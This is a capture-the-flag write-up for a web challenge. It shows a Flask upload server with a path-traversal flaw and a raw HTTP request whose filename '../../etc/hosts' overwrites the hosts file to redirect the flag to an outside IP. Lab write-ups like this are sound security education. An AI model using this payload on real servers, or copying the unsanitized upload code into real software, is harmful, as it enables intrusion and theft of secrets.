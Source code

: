 # Web - Hostility (258) - 55 solves

## Challenge

```python
#!/usr/bin/env python3

from requests import get
from flask import Flask, Response, request
from time import sleep
from threading import Thread
from os import _exit

app = Flask(__name__)

class Restart(Thread):
    def run(self):
        sleep(300)
        _exit(0) # killing the server after 5 minutes, and docker should restart it

Restart().start()

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/docker')
def docker():
    return Response(open("Dockerfile").read(), mimetype='text/plain')

@app.route('/compose')
def compose():
    return Response(open('docker-compose.yml').read(), mimetype='text/plain')

@app.route('/upload', methods=["GET"])
def upload_get():
    return open("upload.html").read()

@app.route('/upload', methods=["POST"])
def upload_post():
    if "file" not in request.files:
        return "No file submitted!"
    file = request.files['file']
    if file.filename == '':
        return "No file submitted!"
    file.save("./uploads/"+file.filename)
    return f"Saved {file.filename}"

@app.route('/flag')
def check():
    flag = open("flag.txt").read()
    get(f"http://localhost:1337/{flag}")
    return "Flag sent to localhost!"

app.run('0.0.0.0', 1337)
```

We also have a Dockerfile that's a bit relevant, basically we can't overwrite the stuff in the `/app` folder, otherwise we can just create a file that's the same name as one of the imports (but that would severely break the challenge, imagine if `flask.py` was created)

```Dockerfile
FROM ubuntu:20.04

RUN apt-get update -y && \
    apt-get install -y python3-pip python3-dev

WORKDIR /app

RUN pip3 install flask Flask-Limiter requests

COPY server.py /app
COPY flag.txt /app
COPY upload.html /app
COPY Dockerfile /app
COPY docker-compose.yml /app

RUN mkdir /app/uploads
RUN chmod -R 555 /app
RUN chmod -R 777 /app/uploads

ENTRYPOINT [ "python3" ]

CMD [ "server.py" ]
```

The key to the solution was observing the call

```py
get(f"http://localhost:1337/{flag}")
```

So we can overwrite the `/etc/hosts` file to make it point to our own ip address such that we can capture the packet. However, there was a bigger problem with how to capture the packet on the specific port 1337. There were a few solutions but all pretty inconvenient

- Having your own public facing webserver that you can listen on
- Set up a vm on one of the cloud providers
- open port 1337 on your router and send it to your own local server

In the end, I just asked a friend to helped me catch the request :)

## Full Solution

```http
POST /upload HTTP/1.1
Host: hostility.chal.imaginaryctf.org
Content-Length: 218
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Origin: https://hostility.chal.imaginaryctf.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUYR96R1SfODQHlO

------WebKitFormBoundaryCUYR96R1SfODQHlO
Content-Disposition: form-data; name="file"; filename="../../etc/hosts"
Content-Type: text/plain

23.96.1.21          localhost
------WebKitFormBoundaryCUYR96R1SfODQHlO--
```

## Flag

```
ictf{man_maybe_running_my_webserver_as_root_wasnt_a_great_idea_hmmmm}
```

## Other solutions

- Can use to overwrite `netrc.py` which gets triggered during the `get` call but its only usable immediately after the restart of the server ( every 5 mins ) assuming that no one else calls `/flag` beforehand

![hostility](./images/hostility.png)
